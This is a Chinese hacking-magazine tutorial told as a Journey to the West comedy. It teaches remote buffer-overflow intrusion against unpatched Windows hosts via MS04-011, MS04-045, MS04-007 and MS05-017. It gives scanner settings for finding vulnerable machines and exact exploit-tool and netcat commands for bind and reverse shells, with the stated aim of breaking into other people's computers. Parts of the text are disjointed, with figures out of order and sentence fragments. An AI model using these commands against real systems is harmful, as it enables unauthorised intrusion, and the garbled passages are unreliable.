（本文涉及到的软件 MT.exe、X-scan3.2、superscan 和 NMAP，光盘有收录）

### X档学堂

### 猪猪之盾的远程溢出

悟空也闯关

暑期的 WOW 冒险有了小猪的陪伴，整个历程变得丰富多彩。悟空这才真正地品味出“美版西游记”的独特魅力，从最基本的升级打怪到突袭部落，从普通任务到黑龙公主，时而让人心跳加快，时而兴奋不已，时而又紧张窒息。当然，最惬意的就是在这以后，舒舒服服地坐到河边钓钓鱼，或者骑上山羊随意逛逛……

“让老吴（吴承恩老师）那个老古板知道有这么一款‘美版西游记’，不知道他会怎么想呢？”悟空心里偷偷乐开了。忽然门铃大响，悟空皱皱眉头：谁呀？真扫兴……“交电费！”雷公电母两口子一点都不客气。“嗯？交电费？”悟空莫名其妙。电母不愧是会计班毕业的，接过声喊道：“都超支几百块了，再不交就让你们花果山一片漆黑。”

“这……会不会是你们算错了？月初才交过电费，现在怎么就超支这么多？”“哼！就你们这样浪费，不超支才怪！”雷公也没好脸色。“怎么了？”“自己去看……等等，先把钱交上。”好不容易把雷公电母两口子打发走，悟空一个跟斗云飞到菜鸟学堂。

还没飞到门口，就发现整个花果山机房的电脑都开着，却一个人也没有。悟空火眼金睛一看，发现所有机器居然都在扫描，有的开着 X-scan，有的开着 nmap，有的开着 superscan，扫描范围竟然是：1.0.0.0-254.254.254.254。忍不住大叫一声：“原来俺老孙的电费是……”就从跟斗云上掉了下来。

原来上次教会大家扫描后，众人不约而同地发现了这是件费时费力的事情，即使放着音乐也没办法耐住寂寞。于是大家纷纷把 QQ 挂在电脑上，顾着睡觉睡着，自己到网吧去找 WOW 去了……“这可不行，得把他们从扫描的漫长战线拉回来。”悟空一边想着，一边打开 WOW 客户端，把众人 MT 了回来。

大家一进菜鸟学堂，悟空就狠狠地训道：“扫描是入侵前踩点搜集信息的一个手段而已，最近也没什么留有 shell 的蠕虫，你们这么扫描没结果不说，还会导致国家电力资源紧张，公司运营成本增加，我的皱纹增长……”八戒一把抓过悟空：“猴哥，我们也不想啊，可是你上次讲了一半，教完扫描后人就不见了，我看中的一个 MM 的机器都扫了无数遍了，该怎么入侵啊？”

悟空把八戒一把推开，余光瞥见沙僧和唐僧也是一脸附和的表情，心想这帮家伙肯定都是一个想法，只不过每次不好说的话都让八戒这个呆子来说罢了。于是从容解释道：“好了，今天，我来教你们一个系统漏洞里最令人闻风丧胆的攻击方法：远程溢出！”“废话少说，解释定义吧！”八戒一副老江湖的样子。

所谓远程溢出呢，首先我们从溢出讲起吧。在计算机中，数据要放到内存中的。但是由于数据很多，所以，不同的数据要在内存中划分出一块一块的地方来。你们可以把内存当做一个很大的“盒子”，被切成很多很多的小“盒子”。这些“盒子”是相邻的，不同的应用程序和数据占据不同的“盒子”。系统很多时候会顺次读取盒子里的内容（这种说法并不确切，只是为了举例说明），读完八号盒子，就去读九号盒子。可是，如果八号盒子里的东西是由我们提交的，并且没有检查我们提交的数据的大小。那么当我们提交过大的内容时，就会把盒子撑破，溢出到九号盒子去。这样就会使系统读到该处时出错。

但是系统读取其内容时，是有一定规律的，假设我们事先就根据该规律设定好一系列的数据，精心构造了溢出的内容，那么我们就可以欺骗系统去做一些我们希望的事。这就是溢出的外行介绍。悟空挖空心思，终于把溢出的意思简单地讲了出来。沙僧：“那远程溢出是什么意思？”悟空：“现在是网络时代，主机要提供服务，往往就和我们有交互的信息来往。如果某些信息没被检查好，那么我们就可以在这些信息上做文章。”

如果我们用溢出的方法欺骗了服务器，告诉它，它应该打开一个端口，让我们连接（或者是发一个 shell 到我们监听的端口；或者我们让它加上一个管理员账号等任意命令），然后它照我们想的去做了，这就是远程溢出了。在这种情况下，我们可以直接得到对方的 shell，就算入侵成功了！

### 名词解释：shell

shell：英文原意是壳。在计算机术语中是指操作系统外壳、命令解释程序（如 DOS 等），最先出现在 UNIX 中。用户通过 shell 向内核（kernel）发命令，由 shell 把输入设备读来的命令转换成计算机可以了解的机器码，然后执行它。不同系统有不同 shell。通俗来说，输入命令并由系统执行的环境就是 shell。远程入侵中常说的“拿到 shell”，就是拿到目标系统可执行命令的控制入口（包括 CMD shell、web shell 等）。

八戒又忍不住了：“哎哎哎，我说猴哥，能不能讲点实际的东西啊，那个什么破 shell 是啥，我才不想管……”“算了，看在你送了我几套好装备的面子上，今天我直接拿几个远程溢出漏洞实例来给你们看好了。”悟空没办法，答应道。

### 八戒：MS-04011 溢出实战

2004 年 4 月 13 日微软公布了 MS-04011 的安全公告，这一公告里公布了数个漏洞，尤其以 LSASS 的远程溢出最为恐怖。臭名昭著的震荡波（Sasser）蠕虫就是利用了这个漏洞来传播自己的。这个漏洞可以说是相当的老了，但是我还是觉得有必要介绍它，因为这个漏洞利用起来方便；其一，不少溢出漏洞都没这个稳定；第二则是这个漏洞有专用扫描工具。



图 1

首先我们使用其扫描工具来扫描看看是否有漏洞。文中解释了 StartIP、End IP、superscan 中多个选项（如“Resolve IP addresses to hostnames”“Show both vulnerable and not vulnerable systems”“Randomize scan order”“Send message to vulnerable systems”）的作用，并说明对局域网维护和提示未打补丁机器有帮助。随后确认 `192.168.1.102` 可溢出，开始动手。

先使用 `getos.exe` 判断对方系统，方法为：`getos 192.168.1.102`，如图 2。



图 2

`Windows 5.0` 表明对方是 Windows 2000 系统，`5.1` 是 Windows XP，`5.2` 是 Windows 2003。之所以判断系统，是因为不同系统对应不同溢出方法。接着使用 `ms04011.exe`，输入 `ms04011` 不加参数可得到帮助信息，如图 3。



图 3

接着介绍了为什么要先判断系统，以及溢出的两种方式：直接溢出和反向溢出。若目标防火墙阻止外部连接，可采用反向溢出：让被溢出主机将 shell 回连到攻击者指定端口。示例中在本机监听 `520` 端口（`nc -vv -l -p 520`），再执行命令：`ms04011 0 192.168.1.102 520 192.168.1.123`，如图 6。



图 6

这样就能溢出 `192.168.1.102`，并让其把 shell 发送到 `192.168.1.123:520`。若成功，监听端会有响应并得到 shell。文中还提到所用 `nc.exe` 为改造版本，连接到监听端口后会自动提示得到 shell；原版可能需要手动回车触发显示。

端口并连接上去，我们可以直接使用：`ms04011 0 192.168.1.102`，如果成功的话，就会打开对方的 1234 端口，然后我们可以连接到对方的 1234 端口就可以得到 shell 了。连接对方端口有两种方法，一是使用 Windows 自带的 telnet；还有一种就是使用瑞士军刀 nc.exe，输入命令：`nc -vv 192.168.1.102 1234`，如图 4。



图 4

在图中我们使用的是第二种，很成功地得到了一个 shell。也许有人会问，为什么系统自带的 telnet 我们不用，非要用 nc 呢？根据笔者的经验，原因如下：

- `telnet` 默认没有回显，也就是输入什么命令自己看不到。要解决这个问题得按下 `CTRL+]` 进入 telnet 设置，输入 `set localecho` 打开本地回显，然后敲回车可回到 telnet 状态（如图 5）。
- `telnet` 是你敲一个字符就发送一个字符，如果不小心输错了命令，不太容易修改；而 `nc` 可以像在普通命令行中一样编辑后再发送。
- `nc` 在使用上比较稳定，而且用途很多，一旦习惯了 `nc` 很少有人再回头使用 `telnet`。



图 5

“Modify By 009 :) Press Enter To Continue ……” 的，如图 7。



图 7

可能有朋友会奇怪为什么上面使用 nc 的时候我都使用了一个 `-vv` 参数，这是表示详细输出的意思，本人喜欢这样用，事实上不加这个参数效果是一样的，大家可以自己测试。当然，nc 的功能远不止监听端口和连接端口这么简单，更强大的功能有兴趣的朋友可以自己去网上搜索资料。

### MS-04045 溢出漏洞实战

MS04011 这个漏洞刚出来的时候确实好用，但是当震荡波出来了以后，不打补丁的人基本上不敢将网线接上，否则机器就慢得跟蜗牛一样到处扫描其他没打补丁的机器，一旦找到其他的机器，就溢出并将自己传播上去，循环不息……不过还好，再过几个月微软就又送了我们一个大礼，MS-04045 的 WINS 服务漏洞。

WINS 服务默认是不安装在普通的机器上的，要安装得到控制面板/添加删除程序/添加删除 Windows 组件/网络服务，在上面点详细信息，如图 8。



图 8



图 9

安装完后会打开 42 端口。因此，我们首先使用 superscan 大面积地扫描开了 42 端口的机器，找到后逐个地去溢出看对方是否没打补丁。某些情况下，使用 X-scan 就可以知道对方打了哪些补丁。KB870763 是此漏洞对应的补丁；如果开了 42 端口、WINS 服务，却没打 KB870763 就有搞头。

使用 superscan 扫描时，填入要扫的 IP 段，在“主机和服务扫描设置”里，将查找主机和 UDP 端口扫描的勾去掉，在 TCP 端口扫描中清除所有端口，再加入 42 端口。再将扫描类型改为直接连接（SYN 不准确），最后把扫描选项中的查找主机名去掉，设置妥当后，开扫吧，如图 9。

市面上的工具太多了，我们使用一个通用性比较好的，输入 ms04045 可以看到帮助信息，如图 10。



图 10

```text
ms04045 -r 目标机 -t 系统 -l 监听主机IP -p 监听端口

例如：
ms04045 -r 192.168.1.102 0 -t 0 -l 192.168.1.123 -p 9876
```

| 编号 | 系统参数 |
|---|---|
| 0 | Windows 2000 ALL |
| 1 | Windows 2003 CN |
| 2 | Windows 2003 EN |
| 3 | Windows 2003 EN #2 |
| 4 | Windows NT ALL |

这样将溢出 192.168.1.102 并使其把 shell 发送到 192.168.1.123（本机）的 9876 端口。当然，得先在本地打开一个 CMD 用 nc 监听好 9876 端口：`nc -vv -l -p 9876`。再执行命令后，会看到提示，如图 11。


图 11

然后我们检查刚才监听的端口，发现已经得到了 shell。图 12 再次成功溢出！当然，这个漏洞的利用工具还有不少版本的，使用上都差不多。



图 12

### MS-04007 ASN1 漏洞

这个漏洞是比 MS-04011 更早出现的一个安全公告，可是其利用程序却很晚才出现。因此有不少懒惰的管理员只打补丁，或者仅仅做了些设置。因此现在使用其溢出的成功率也不小。更难能可贵的是，这个漏洞在利用上，不同于别的漏洞往往只能使用一个端口，这个漏洞居然可以使用 5 个不同的服务（自然对应了五个端口）来溢出，可以说是相当的厉害。…SSL服务（443端口）、SMTP服务（25端口）、NetBIOS（139端口）以及SMB服务（445端口）。那么我们在 superscan 里设置的时候，将 TCP 端口设为这五个，然后进行扫描，如图13。



这里我们使用的是 sagi 为大家编译好的 winasn.exe，用法很简单：`winasn -p 目标端口 目标IP` 或者 `winasn -s 服务类型 目标IP`。比如要溢出 192.168.1.8，输入：`winasn -s smb 192.168.1.8`。如果成功会打开对方的 8721 端口；若目录下有 nc.exe 还会自动调用 nc 连接目标主机 8721 端口，如图14。



## 四、MS-05017 消息队列远程溢出

这应该是目前比较新的漏洞之一。该漏洞影响 Windows 2000 SP4 以及 XP SP1。默认情况下，消息队列服务未开启，需要在“控制面板/添加删除程序/添加删除 Windows 组件”里勾选“消息队列服务（MSMQ）”安装。安装后会开启 2103、2105、2107 三个端口。溢出时可使用 winmsmq0.3.exe，基本用法：`winmsmq0.3 <目标主机IP> <端口> <对方NetBIOS名> <绑定端口号> [包数]`。

